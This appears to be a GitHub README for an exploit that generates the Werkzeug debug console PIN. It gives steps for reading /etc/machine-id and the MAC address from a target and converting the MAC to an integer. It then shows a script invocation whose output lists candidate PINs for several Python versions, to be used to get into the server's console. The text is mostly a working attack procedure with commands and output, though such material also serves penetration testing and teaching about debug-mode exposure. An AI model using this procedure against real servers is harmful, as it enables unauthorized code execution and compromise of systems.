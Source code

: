 # Werkzeug Console PIN Exploit
### Tested on :
- Python 3.6.9
- Server - Werkzeug 1.0.1
- Linux 4.15.0-20-generic #21-Ubuntu x86_64 GNU/Linux

## Proof of Concept - POC
1. Get `/etc/machine-id` and `/sys/class/net/$INTERFACE/address` from the target. 
3. Convert the interface address(MAC) to integer form. Eg- `00:50:56:bf:d7:70` to `345052796784`. This could be done using python as follows:
```python
>>> print(0x005056bfd770)
345052796784
```
3. Run the python script.
```bash
$python as.py --uuid 345052796784  --machineid 00566233196142e9961b4ea12a2bdb29 
[!] App.py base path not provided, trying on Python Versions - 2.7 and 3.0 - 3.8.
Python V2.7 PIN: 134-138-423
Python V3.0 PIN: 278-866-810
Python V3.1 PIN: 299-529-114
Python V3.2 PIN: 223-757-906
Python V3.3 PIN: 181-173-573
Python V3.4 PIN: 201-362-587
Python V3.5 PIN: 195-645-696
Python V3.6 PIN: 328-723-543
Python V3.7 PIN: 300-924-247
Python V3.8 PIN: 880-398-758
```
4. Use the PIN with the Python Version installed on the target to get into the console.

---
**NOTE**: This script runs with some default infomation such as Username as www-data and Hash as MD5.
